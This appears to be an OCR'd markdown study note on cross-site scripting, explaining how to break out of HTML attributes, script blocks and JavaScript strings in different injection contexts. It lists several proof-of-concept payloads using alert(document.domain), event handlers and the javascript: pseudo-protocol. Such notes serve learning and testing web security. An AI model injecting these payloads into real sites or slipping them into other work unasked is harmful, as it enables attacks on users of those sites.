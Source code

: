 # XSS Context

- the location where the response where the attacker control data appears.
- any input validation or other processing that is being performed on that data by application.

## XSS in HTML tag attributes

- When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

```
"><script>alert(document.domain)</script>"

```

- if angle brackets are blocked then we introduce new attributes that creates a scriptable context, such as event handler

```
"autofocus onfocus=alert(document.domain) x="

```

- Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context. Here, you can execute JavaScript without needing to terminate the attribute value. For example, if the XSS context is into the `href` attribute of an anchor tag, you can use the `javascript` pseudo-protocol to execute script. For example:

```
< a href="javascript:alert(document.domain)">

```

## Xss into Java script

- simply close the previous `<script>` tag and then enter our payload

```
</script><img src=x onerror=alert(document.domain)>

```

## breaking out of a java script string

- in cases where the Xss context is inside a quoted string literal, it is often possible to break out of the string and execute java script directly.
- it is essential to repair script following xss context, because any syntax errors there will prevent the whole script from executing.

```
'-alert(document.domain)-'    or
';alert(document.domain)//

```
